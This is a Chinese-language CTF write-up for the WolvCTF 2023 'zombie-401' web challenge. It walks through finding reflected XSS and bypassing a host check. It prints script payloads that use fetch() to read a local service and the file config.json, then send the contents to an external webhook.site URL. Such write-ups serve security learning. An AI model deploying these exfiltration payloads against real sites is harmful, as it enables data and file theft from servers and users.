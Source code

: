 # WolvCTF(2023)-zombie-401 writeup

访问题目地址:

![web-3.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.1.png)

有两个输入框，先看下前端代码,只有两个接口信息：
![web-3.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.2.png)

貌似没啥东西，第一个输入框要求输入一个zombie节目，第二个是输入一个zombie节目url。

第一个框随便输入内容之后，回显内容如下，输入内容嵌入到页面里面了

![web-3.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.3.png)

试试xss注入,很好，没有过滤：

<script>alert(1)</script>

请求地址：`http://49.232.142.230:11589/zombie?show=%3Cscript%3Ealert%281%29%3C%2Fscript%3E`

![web-3.8](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.8.png)

第二个框是输入一个url,随便输入之后，回显内容要求输入的url中host头要和题目地址一样，emm

![web-3.9](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.9.png)

试下301中的payload：

```
<script>fetch("http://49.232.142.230:18115/").then((data) => fetch("https://webhook.site/409eebb6-3c36-4da2-915b-1d2c3ea3426c?c=".concat(JSON.stringify(data))));</script>
```

回弹信息中没有flag了：

![web-6.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-6.1.png)

这个靶场其实是前端页面托管在 Node.js 服务端，服务端开放了 SSRF/本地协议读取漏洞，或者 fetch 本身是被 polyfill（或伪造）成可以访问本地文件的

![web-6.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-6.2.png)

在 Node.js 里，fetch 实际上是调用如 `node-fetch`、`undici` 等模块实现的，而这些模块**是可以访问本地文件协议的**

直接读取本地的flag文件：

```
<script>fetch("file:///ctf/app/config.json").then(a=>a.text()).then(a=>fetch("https://webhook.site/409eebb6-3c36-4da2-915b-1d2c3ea3426c?"+a))</script>
```

![web-6.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-6.3.png)
